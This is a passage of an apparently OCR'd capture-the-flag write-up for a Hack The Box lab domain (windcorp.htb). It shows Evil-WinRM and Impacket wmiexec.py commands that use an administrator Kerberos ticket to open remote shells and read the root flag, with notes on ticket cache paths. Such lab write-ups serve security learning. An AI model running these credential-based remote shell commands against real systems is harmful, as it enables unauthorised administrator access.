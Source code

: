     Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents>



From here I can grab the flag:



    *Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
    1a921d83************************



#### wmiexec.py

Impacket tools like `wmiexec.py` will work as well:



    oxdf@hacky$ KRB5CCNAME=./administrator.ccache wmiexec.py windcorp.htb/administrator@hathor.windcorp.h
    tb -k -no-pass
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation                                                  

    [*] SMBv3.0 dialect used
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>



I can use the default ticket, but only if i specify the location:



    oxdf@hacky$ wmiexec.py windcorp.htb/administrator@hathor.windcorp.htb -k -no-pass
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

    [-] CCache file is not found. Skipping...
    [-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)

    oxdf@hacky$ KRB5CCNAME=/tmp/krb5cc_1000 wmiexec.py windcorp.htb/administrator@hathor.windcorp.htb -k 
    -no-pass
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

    [*] SMBv3.0 dialect used
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>







